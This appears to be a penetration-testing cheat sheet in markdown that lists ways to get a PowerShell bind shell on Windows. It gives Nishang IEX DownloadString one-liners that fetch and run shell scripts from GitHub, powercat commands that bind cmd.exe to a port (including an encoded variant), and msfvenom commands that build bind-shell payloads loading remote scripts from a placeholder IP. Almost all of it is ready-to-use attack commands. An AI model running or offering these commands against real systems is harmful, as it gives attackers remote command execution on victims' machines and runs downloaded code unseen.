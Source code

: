# PowerShell

## 01 - Nishang

### 1.1 - TCP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1')

Invoke-PowerShellTcp -Bind -Port <PORT>
```

### 1.2 - UDP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1')

Invoke-PowerShellUdp -Bind -Port <PORT>
```

## 02 - Generate via `powercat`

Generate bind shell.

```
> powercat -l -p <PORT> -e cmd.exe -g
```

Generate encoded bind shell.

```
> powercat -l -p <PORT> -e cmd.exe -ge
```

## 03 - Generate via `msfvenom`

### 3.1 - x86 (32-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

### 3.2 - x86-64 (64-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x86-64.ps1
```

---
## References

### Github

- [MrPineMan: Awesome Reverse Shell](https://github.com/MrPineMan/Awesome-Reverse-Shell)

- [Powercat](https://github.com/besimorhino/powercat)

### Hacktricks

- [Hacktricks: Shell Windows](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/windows.html)

### Ironhackers

- [Ironhackers: Commands in Windows to Get Shell](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)